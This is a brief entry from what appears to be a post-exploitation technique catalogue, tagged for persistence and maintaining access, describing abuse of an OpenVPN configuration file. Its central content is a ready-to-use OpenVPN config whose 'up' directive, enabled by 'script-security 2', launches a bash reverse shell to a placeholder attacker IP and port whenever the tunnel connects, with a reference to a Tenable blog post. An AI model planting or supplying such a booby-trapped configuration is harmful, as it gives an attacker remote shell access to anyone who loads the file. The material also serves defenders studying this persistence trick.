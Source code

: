 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - network-protocols
  - openvpn
  - linux
credits:
  - Jacob Baines
---
```

# OpenVPN

```
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/<attacker_IP>/<attacker_PORT> 0<&1 2>&1 &'"
```

---
## References

- [Jacob Baines: Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)